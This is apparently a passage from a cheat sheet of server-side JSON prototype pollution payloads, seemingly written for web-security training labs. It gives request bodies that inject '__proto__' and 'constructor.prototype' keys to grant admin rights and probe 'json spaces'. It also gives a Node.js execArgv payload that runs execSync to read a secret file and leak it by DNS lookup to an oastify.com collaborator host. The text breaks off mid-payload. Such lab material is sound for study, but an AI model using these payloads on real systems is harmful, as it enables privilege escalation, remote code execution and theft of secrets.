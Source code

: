 - Server-Side (JSON Prototype Pollution)

```json
{
	"address_line_1":"Wiener HQ",
	"address_line_2":"One Wiener Way",
	"city":"Wienerville",
	"postcode":"BU1 1RP",
	"country":"UK",
	"sessionId":"omUQ4NlX9WFFGSgKEM1UXt35LYAaK8ip",
	"__proto__":{
		"isAdmin":"true"
	}
}
```

```json
{
	"address_line_1":"Wiener HQ",
	"address_line_2":"One Wiener Way",
	"city":"Wienerville",
	"postcode":"BU1 1RP",
	"country":"UK",
	"sessionId":"omUQ4NlX9WFFGSgKEM1UXt35LYAaK8ip",
	"constructor":{
		"prototype":{
			"isAdmin":true
		}
	}
}
```

```json
{
	"address_line_1":"Wiener HQ",
	"address_line_2":"One Wiener Way",
	"city":"Wienerville",
	"postcode":"BU1 1RP",
	"country":"UK",
	"sessionId":"omUQ4NlX9WFFGSgKEM1UXt35LYAaK8ip",
	"__proto__":{
		"json spaces":20
	}
}
```

> Observe spaces in the JSON result.

- NodeJS Remote Execution via execArgv

```json
- NSLOOKUP -

{
	"__proto__":{
		"execArgv":[
			"--eval=require('child_process').execSync('nslookup $(cat /home/carlos/secret).9oyvfbvkxivd5kgpav5krzvmfdl490xp.oastify.com')"
			]
	}
}

- CURL -
  
{
	"__proto__":{
		"execArgv":[
```